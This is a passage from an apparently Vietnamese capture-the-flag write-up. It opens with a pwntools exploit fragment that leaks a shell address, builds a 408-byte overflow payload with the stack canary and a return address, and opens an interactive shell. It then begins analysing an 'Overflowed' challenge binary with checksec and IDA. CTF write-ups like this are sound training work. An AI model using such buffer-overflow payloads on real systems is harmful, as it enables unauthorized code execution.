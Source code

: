 ```python
shell_address = int(output.split("***")[2], 16) - 0x63
info("bash: 0x%x" % shell_address)

r.sendline(b"malicious_binary")
r.recvuntil(b":\n")

payload = b"A" * 408 + p64(canary) + p64(0) + p64(shell_address)

r.sendline(payload)
r.interactive()
```

### Overflowed

- Bài này được cấp cho một file Docker và một chương trình nhị phân
- Mình **checksec** nó thì nhận được kết quả như sau:

![alt text](image-3.png)

Do không được cung cấp mã nguồn nên mình dùng IDA để phân tích mã nguồn của bài này thì phát hiện:

- Có hàm **win** được dùng để cấp shell cho người chơi để đọc flag trên server
![alt text](image-4.png)
- Có lỗi BOF trong hàm **greet** tại dòng 6
![alt text](image-5.png)

